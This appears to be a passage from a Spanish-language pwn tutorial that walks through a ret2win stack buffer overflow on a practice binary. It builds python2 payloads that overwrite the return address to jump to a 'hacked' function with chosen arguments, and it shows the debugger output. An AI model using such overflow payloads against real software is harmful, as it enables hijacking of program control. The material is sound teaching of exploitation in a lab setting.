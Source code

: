 Vamos a crear un *payload* con python2 para que al igual que en la [sección anterior](Ret2Win.md), al terminar de ejecutar la función *register_name*, en lugar de volver a *main*, la dirección de retorno sea la de *hacked*. Para ello debemos ver cuál es la dirección de *hacked*, lo haremos descompilando la función y viendo la dirección de la primera línea:

```gdb-pwndbg
disassemble hacked
```
```gdb-pwndbg
Dump of assembler code for function hacked:
   0x08049182 <+0>:	push   ebp
   [...]
```

Ya podemos crear el *payload* (recordad que es *little-endian* ó *LSB*, por lo que va al revés):

```bash
python2 -c 'print "A"*28 + "\x82\x91\x04\x08" + "BBBB" + "CCCC" + "DDDD"' > payload
```
> Recordad redirigir la salida a un archivo, ya que al copiar y pegar se realiza una conversión que cambia el valor del *payload*.

Después de la dirección hemos añadido tres parámetros más, las *B* representan el puntero de pila (*stack pointer*); y las *C* y *D*, los dos argumentos que recibe la función. Si ejecutamos pasándole el *payload*:

```gdb-pwndbg
run < payload
```
```ret2win_params
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA�BBBBCCCCDDDD
Unauthorised access to secret function detected, authorities have been alerted!!
```

Vemos que ha entrado en la función *hacked* pero como era de esperar, tenemos que dar un valor a los parámetros. Como vimos en el código fuente, el primer parámetro debe ser `0xdeadbeef` y el segundo `0xc0debabe`, así que modificamos el *payload*:

```gdb-pwndbg
python2 -c 'print "A"*28 + "\x82\x91\x04\x08" + "BBBB" + "\xef\xbe\xad\xde" + "\xbe\xba\xde\xc0"' > payload
```
> Las *B* las dejamos, ya que son el puntero de pila.

Si volvemos a ejecutar:

```gdb-pwndbg
run < payload
```
```ret2win_params
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA�BBBBﾭ޾���
This function is TOP SECRET! How did you get in here?! :O
```

Y ya habríamos resuelto el ejercicio!


## Ejercicio2 (Con parámetros)
